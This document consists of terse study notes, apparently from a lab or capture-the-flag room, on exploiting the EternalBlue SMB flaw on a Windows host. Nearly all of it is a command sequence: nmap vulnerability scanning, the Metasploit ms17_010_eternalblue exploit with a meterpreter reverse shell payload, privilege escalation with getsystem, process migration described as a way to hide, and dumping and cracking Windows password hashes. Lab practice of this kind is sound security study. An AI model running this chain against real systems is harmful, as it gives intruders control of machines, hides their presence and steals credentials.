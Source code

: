 do the nmap scan and could find smb port
do vulnerability scan using nmap

[locate .nse | grep smb]
[locate .nse | grep smb-vuln]
[nmap --script vuln -p 445 10.10.10.10]
[msfconsole -q] - [search eternalblue]
[auxiliary/admin.....] - scanners to find out whether vuln or not

now the service is vulnerable to eternalblue. lets try to exploit it. go to msfconsole

[msfconsole -q]

in msfconsole 

[search eternalblue]

[use exploit/windows/smb/ms17_010_eternalblue]

[set payload windows/x64/meterpreter/reverse_tcp]

getting a meterpreter shell

[background]

[use shell_to_meterpreter]

[show options] - set session to 1

[run]

[background]

[getuid]

[sessions -i 2]

[getsystem]

[ps]

[migrate -p] - by process id [migrate -N] - by process name

migrate service can be used to hide our process

[hashdump] - dumping windows hash files

[crackstation] - can be used to crack the hash